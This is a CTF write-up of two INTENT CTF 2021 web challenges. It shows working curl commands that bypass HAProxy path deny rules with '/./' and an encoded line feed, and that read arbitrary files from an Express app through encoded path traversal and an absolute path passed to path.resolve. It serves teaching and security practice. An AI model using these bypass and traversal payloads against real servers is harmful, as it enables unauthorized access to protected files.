




# INTENT CTF 2021


[INTENT Security Research Summit 2021](https://intentsummit.org/) was founded by security companies CyberArk and Checkmarx and is focused on security research. 

I played (most of) their web challenges and I thought they were simple, but very creative. 

In this write-up, I'll make a fast-pass on the solved challenges, with less details than usual.



# Door (un)Locked



## Challenge

In this challenge, we are presented with an empty page.


We have an attachment called **ha.cfg**:

```apache
global
    daemon
defaults  
    mode    http
    timeout  client  50000
    timeout  server  50000
    timeout  connect 50000
frontend web 
    bind *:8000  
    http-request deny if { path_beg /flag }
    http-request deny if { path,url_dec -m reg ^.*/?flag/?.*$ }
    default_backend websrvs
backend websrvs 
    http-reuse always
    server srv1 flask:5000
```

While searching a little bit, I confirmed my suspicion that it is an haproxy configuration file. 

We have an haproxy in front of an internal server (flask:5000). There is a /flag endpoint, which is our obvious target, but it is externally blocked by the two **http-request deny**:

1. The first blocks any request starting with **/flag**
2. The second blocks any request that, after urldecoding, matches the regex bellow.

```
^.*/?flag/?.*$
```

Let's take a look:

```
$ curl http://door-unlocked.chal.intentsummit.org:8000/flag
<html><body><h1>403 Forbidden</h1>
Request forbidden by administrative rules.
</body></html>
```

## Hacking

For testing purposes, I started a local haproxy protecting a fake http server (just a netcat), just to test the bypass.

```
$ nc -l -p 5000 < netcat.response.http
```

At first, let's comment the regex line to understand the first protection.

```
http-request deny if { path_beg /flag }
# http-request deny if { path,url_dec -m reg ^.*/?flag/?.*$ }
```

Since it protects only the exact /flag string, it's a very easy bypass:

```
$ # Normal block
$ curl http://localhost:8000/flag
<html><body><h1>403 Forbidden</h1>
Request forbidden by administrative rules.
</body></html>
$
$ # Bypass
$ curl --path-as-is http://localhost:8000/./flag
Bypassed!
```

We just changed **/flag** to **/./flag** (shame on you). Note that I used the --path-as-is flag on curl to avoid normalization on the client-side.

Let's invert the the comments to test the regex bypass:

```
# http-request deny if { path_beg /flag }
http-request deny if { path,url_dec -m reg ^.*/?flag/?.*$ }
```

You should really take a look at https://regex101.com/, that explains the regex meaning to dumb people like me.



At first, it looks like anything with the word "flag" inside the URL would be blocked, even if we send a urlencoded payload, since it decodes before matching. BUT, if you analyze the details of the regex, we can find our vulnerability. regex101 makes it easier:



So... what about sending a line terminator?
(Note that I'm keeping the the first bypass in the game)

```
# Normal block
$ curl --path-as-is http://localhost:8000/./flag
<html><body><h1>403 Forbidden</h1>
Request forbidden by administrative rules.
</body></html>
$ 
$ # Bypass
$ curl --path-as-is http://localhost:8000/./%0a/../flag
Bypassed!
```

Pretty nice, it accepted our %0A (ASCII Line Feed) and, since it does not match the "```.*```", it bypassed the regex.

Now, get the flag in the real server:

```
$ curl --path-as-is http://door-unlocked.chal.intentsummit.org:8000/./%0a/../flag
INTENT{Smuggl3_w1th_H4_Pr0xy}
```

Unlocked!

```INTENT{Smuggl3_w1th_H4_Pr0xy}```

# Etulosba


## Challenge

In this challenge, the main page only shows the word **etulosba**, which is **absolute** reversed, the obvious hint. We also got the simulated CDN source code:

```javascript
const fs = require("fs");
const path = require("path");
const express = require("express");

const server = express();

server.get("/", function (req, res) {
    res.end("<html><body>etulosba</body></html>");
});

server.get("/files/images/:name", function (req, res) {
    if (req.params.name.indexOf(".") === -1) {
        return res.status(400).json({ error: "invalid file name" });
    }

    res.sendFile(__dirname + path.join("/files/images/", req.params.name));
});

server.get("/files/binary/:name", function (req, res) {
    if (req.params.name.indexOf(".") !== -1) {
        return res.status(400).json({ error: "invalid file name" });
    }

    res.sendFile(path.resolve(__dirname, "/files/binary/", req.params.name));
});

fs.writeFileSync(path.join(__dirname, "flag.name"), process.env.FLAG_NAME);
fs.writeFileSync(path.join("/tmp", process.env.FLAG_NAME), process.env.FLAG);

server.listen(process.env.HTTP_PORT);
```

In summary:
* It simulates a simple CDN, which allows you to download binary and image files from specific directories.
* The flag is a file inside **/tmp**, which we don't know the name
* There is a file called **flag.name**, on the app directory.
    * Inside this file is the unknown name of the flag file.

## Hacking

It is pretty clear that we have to get the flag.name file and, using the value, getting the flag file inside tmp.
The obvious flaw of the app is the [LFI - Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion), which I explained in a recent write-up: [ASISCTF 2021 - ASCII art as a service](https://fireshellsecurity.team/asisctf-ascii-art-as-a-service/)

Let's first get the **flag.name** file, using the **/files/images/:name**. Let's try [path traversal](https://owasp.org/www-community/attacks/Path_Traversal) here:

```html
$ curl -k --path-as-is https://etulosba.chal.intentsummit.org/files/images/../../flag.name
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Cannot GET /files/images/../../flag.name</pre>
</body>
</html>
```

This message means the express app does not found any GET route with this pattern. This happens because we broke the pattern **/files/images/:name**. If we just urlencode the :name, it works>

```html
$ curl -k --path-as-is https://etulosba.chal.intentsummit.org/files/images/..%2f..%2fflag.name
imaflagimaflag
```

We got the flag file name: ```imaflagimaflag```. We didn't even got a protection, because it needs a dot (.) in the :name parameter and we already have it.

Now that we know the flag location, let's try to get it with the same route. We don't know the current path, so let's go back a lot with ```../../../../../../../../tmp/imaflagimaflag```.
Because of the nginx in front of the real app, the real error is masked and it is not so clear to explain. I'll test locally directly in the node app to show the real error.

```html
$ curl -k --path-as-is http://localhost:8000/files/images/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2ftmp%2fimaflagimaflag
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Error: ENOENT: no such file or directory, stat &#39;/writeup/etulosba/tmp/imaflagimaflag&#39;</pre>
</body>
</html>
```

```Error: ENOENT: no such file or directory, stat '/writeup/etulosba/tmp/imaflagimaflag'```

It concatenated the current directory because it's using the ```path.join``` method. No lucky here.
What about an ABSOLUTE path? :)

```
$ curl -k --path-as-is https://etulosba.chal.intentsummit.org/files/images/%2ftmp%2fimaflagimaflag
{"error":"invalid file name"}
```

It blocks us because there is no dot in the filename... BUT we also have the ```/files/binary/:name``` endpoint.

```
$ curl -k --path-as-is https://etulosba.chal.intentsummit.org/files/binary/%2ftmp%2fimaflagimaflag
INTENT{absolutely_great_job_with_the_absolute_path}
```

It works now, because there is no dot and the ```path.resolve``` method has the particular behaviour of ignoring the previous parameters if you send an ABSOLUTE path. It's not a concatenation as in the ```path.join``` case.

```INTENT{absolutely_great_job_with_the_absolute_path}```


# References

* INTENT CTF 2021: https://ctf.intentsummit.org/
* CTF Time Event: https://ctftime.org/event/1454
* INTENT Cybersecurity Summit 2021: https://intentsummit.org/
* ASISCTF 2021 - ASCII art as a service: https://fireshellsecurity.team/asisctf-ascii-art-as-a-service/
* Repo with the artifacts discussed here: https://github.com/Neptunians/intent-ctf-2021-writeup
* Team: [FireShell](https://fireshellsecurity.team/)
* Team Twitter: [@fireshellst](https://twitter.com/fireshellst)
* Follow me too :) [@NeptunianHacks](twitter.com/NeptunianHacks)